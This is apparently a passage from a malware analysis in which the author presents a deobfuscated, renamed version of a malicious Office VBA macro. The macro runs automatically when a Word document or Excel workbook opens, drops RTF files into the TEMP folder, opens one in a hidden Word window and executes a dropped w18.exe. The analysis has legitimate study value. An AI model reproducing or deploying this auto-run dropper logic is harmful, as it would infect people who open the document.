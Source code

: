 I fussed over the code of this macro for quite awhile renaming things to make some sense of it. Here's my version:

```
## main for Word 
Sub AutoOpen()
    varY = "q,jwdlk XXXXXXXXXXXXXXXX jkgasjkdhwqdasd"
    Auto_Open ##run main for Excel
End Sub

## orphan?
Sub LK()
    varK = "askdhjk ashdjk asghXXXXXXXXXXXX"
    main
End Sub

Sub main()
  slash = "\"
  Temp = "TEMP"
  On Error Resume Next
  TMP = Environ$(Temp) & slash
  FEFE = ".e"
  FEFE = FEFE & "xe"
  DEDE = "." + "rt" + "f"
  
  TCA = TMP + "322" + DEDE
  ## $TEMP\322.rtf
  TCB = TMP + "311" + DEDE
  ## $TEMP\311.rtf
  TEX = TMP + "w18" & "" + FEFE
  ## $TEMP\w18.exe
  
  ## save RTFs to disk
  SaveFile (TCA)
  SaveFile (TCB)

  ## sleep?
  Sleep (2)
  
  ## Run Word
  Set wordObj = CreateObject("Word.Application")
  wordObj.Visible = False
  Set frame = wordObj.Documents.Open(TCA)
  ## create another Word window with 322.rtf, hide it

  ## sleep and then exec  
  Sleep (2)
  Shell (TEX)
  ## run $Temp\w18.exe
  Sleep (1)

  ## stop other Word
  wordObj.Quit
  Set wordObj = Nothing
  ## kill Word

End Sub

## for Excel
Sub Workbook_Open()
    varX = "ansdh XXXXXXXXXXXXXXXX d"
    main
End Sub

```